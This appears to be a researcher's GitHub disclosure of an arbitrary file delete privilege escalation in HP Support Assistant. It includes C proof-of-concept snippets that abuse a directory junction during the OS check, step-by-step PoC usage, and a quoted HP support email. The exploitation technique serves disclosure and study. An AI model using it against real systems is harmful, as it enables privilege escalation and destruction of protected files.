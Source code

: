 # Arbitrary File Delete Elevation of Privilege in HP Support Assistant

<div>
  <table>
    <tr>
      <th colspan="2">Vulnerability Information</th>
    </tr>
    <tr>
      <td>Platform</td>
      <td>Windows 10 20H2 (OS Build 19042.1387)</td>
    </tr>
    <tr>
      <td>Vendor</td>
      <td>HP (Hewlett-Packard)</td>
    </tr>
    <tr>
      <td>Application</td>
      <td>HP Support Assistant</td>
    </tr>
    <tr>
      <td>Vulnerability Version</td>
      <td> <9.11.106.0</td>
    </tr>
    <tr>
      <td>Function</td>
      <td>Operating System Check</td>
    </tr>
    <tr>
      <td>Date of Discovery</td>
      <td>2021-12-01</td>
    </tr>
  </table>
</div>

## Description
It logs and automatically deletes diagnostic data when performing operating system scans in HP Support Assistant running with normal User privileges. At this time, if the path is manipulated through NTFS Mount Point/Directory Junction among Windows Symbolic Links, it can be abused to delete arbitrary files with `SYSTEM` privileges.

## Exploitation
When HP Support Assistant is launched, the HPSAAppLauncher process runs as a child process of the AppHelperCap service. The AppHelperCap service is a basic service provided in HP notebooks and operates with `SYSTEM` privileges. Also, if the functions provided by HP Support Assistant are performed, a new process is launched as a child process of the HPSAAppLauncher process.
HP Support Assistant provides a number of features. If you go to Fix and Diagnostics in Device Support, the operating system check function exists, and when you do that, a new process called HPOSCheck runs with `SYSTEM` privileges.

> **Process Hacker: Check process permissions**

![image](https://user-images.githubusercontent.com/44025989/207381187-5c959a87-4ae1-4468-978f-0c46da69b55e.png)</br>

During the operating system check by the HPOSCheck process, diagnostic data for BITS, Windows Update, Device Center, Maintenance, and Device are created in the following paths with `SYSTEM` privileges, respectively.

```powershell
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\BITS
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\WindowsUpdate
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\DeviceCenter
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Maintenance
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Device
```

The generated data is deleted immediately by automatically calling the `DeleteFileW` function, and at the same time, the diagnostic data saved for each area in the `"C:\Windows\Temp\SDIAG_Random GUID\result"` path are integrated and saved. Afterwards, when the operating system check is finished, the `"SDIAG_Random GUID"` directory created in the path is deleted calling the `DeleteFileW` function with `SYSTEM` privilege.

```C
_TCHAR tempPath[1024] = L"C:\\Windows\\Temp";

WIN32_FIND_DATA data;

HANDLE hFind = FindFirstFile(L"C:\\Windows\\Temp\\SDIAG_*", &data);
if (hFind == INVALID_HANDLE_VALUE)
{
	printf("[!] Cannot Find sdiag Directory\n");
	return 1;
}

_TCHAR* sdiagDir = L"Error";

while (FindNextFile(hFind, &data) != 0)
{
	if (wcscmp(data.cFileName, L".") == 0 || wcscmp(data.cFileName, L"..") == 0)
		continue;
	else sdiagDir = data.cFileName;
}
```

The path where the `"SDIAG_Random GUID"` directory is created has high privileges, so general users cannot access it. However, one of the HP Support Assistant features, Performance Optimization, can be used to delete files in that path.
If the `"C:\Windows\Temp"` path is empty by optimizing the performance while the operating system check is in progress, the operating system check can still have the handle. At this time, if you make a directory junction to the `"result"` directory with an arbitrary path, you can follow the link and delete the files in the target path with `SYSTEM` privilege.

```C
CreateDirectory(sdiagPath, nullptr);
CreateDirectory(fullpath, nullptr);

if (CreateDirectory(fullpath, nullptr) || (GetLastError() == ERROR_ALREADY_EXISTS))
{
	if (!ReparsePoint::CreateMountPoint(fullpath, argv[1], argc > 2 ? argv[2] : L""))
	{
	printf("[!] Error creating mount point - %ls\n", GetErrorMessage().c_str());
		return 1;
	}
}
else
{
	printf("[!] Error creating directory - %ls\n", GetErrorMessage().c_str());
}
```

## Conclusion
1. After verifying user information, start HP Support Assistant.
2. Go to Device Support, then select Fixes and Diagnostics.
3. Run an operating system check.
4. Perform PoC in the format of `HPOSCheck_PoC.exe [target dir]`.
5. When the message `"Start Optimize performance without additional options and press ENTER"` appears, run performance optimization and press ENTER.
6. When the PoC ends with the phrase `"Now Close the operating system check window!!!"`, the operating system check ends.

### Proof of Concept

![image](https://user-images.githubusercontent.com/44025989/207381332-e1bfb343-3d91-4733-9be9-da443ac7d326.png)</br>

### Demo
[![Video Label](http://img.youtube.com/vi/DeQCBZQaGVo/0.jpg)](https://youtu.be/DeQCBZQaGVo)

<!-- ### Countermeasures
When performing operating system checks in HP Support Assistant running with normal user privileges, the `ReparseTag` must be checked internally when the `DeleteFileW` function is called.
-->

## Reference
* **[symboliclink-testing-tools, Developed by James Forshaw](https://github.com/googleprojectzero/symboliclink-testing-tools.git)**

## Why Stolen: Mailboxes received from HP after reporting vulnerabilities
### 📩 Hello, HP. HP Support Assistant
> **Jin, Mingzhou (CCC Dalian Korea)** `mingzhou.jin@hp.com`</br>
> 2022. 01. 18. PM 12:05
```
Hello.
Case number : 5078475116
Regarding HP Support Assistant, the HP team will confirm and respond to you.

HP Support Assistant has been fully vetted by HP Cybersecurity and has responded with no flags and no issues.

Please note.

thank you
Myung Joo Kim regards
Mingzhou, Jin
CCC Dalian Korea
mingzhou.jin@hp.com
Hewlett-Packard Company
PPS CSS CDCD PS Korea Operation Support Team
```
